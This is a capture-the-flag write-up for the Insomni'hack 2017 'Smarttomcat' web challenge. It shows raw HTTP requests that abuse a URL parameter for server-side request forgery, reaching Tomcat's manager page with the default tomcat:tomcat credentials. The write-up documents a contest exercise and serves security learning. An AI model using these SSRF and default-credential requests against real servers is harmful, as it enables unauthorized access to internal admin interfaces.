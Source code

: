 ```yaml
---
title: "Insomni'hack teaser: Smarttomcat (web 50)"
date: 2017-01-22T11:22:32+02:00
draft: false
tags:
    - Tomcat
    - Web
category: Writeup
---
```


For this challenge, you are supposed to enter the correct coordinates to find the robot cat.

![tomcat1](tomcat1.png)
![tomcat2](tomcat2.png)

For these types of challenges, I like using burp suite in order to record and modify HTTP requests. The following request was recorded when entering some random values.
```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://smarttomcat.teaser.insomnihack.ch/
Content-Length: 64
Connection: close

u=http://localhost:8080/index.jsp?x=875&y=-757
```

This is quite interesting, it’s sending a URL to localhost as a parameter. Judging by the name I assumed the backend software was actually running tomcat (http://tomcat.apache.org/).
I have briefly used tomcat before so I was aware that there was an admin page and that the username and password most likely was tomcat:tomcat. I found the admin URL (http://127.0.0.1/manager/html)  from google and modified the request to include the URL to the admin page.

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://smarttomcat.teaser.insomnihack.ch/
Content-Length: 64
Connection: close

u=http://127.0.0.1/manager/html
```

This caused a small little box pop up on the map informing me that I need to login using HTTP Basic Authentication. I simply updated the request once more:

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://smarttomcat.teaser.insomnihack.ch/
Content-Length: 64
Connection: close

u=http://tomcat:tomcat@127.0.0.1/manager/html
```

And the flag revealed itself: `INS{th1s_is_re4l_w0rld_pent3st}`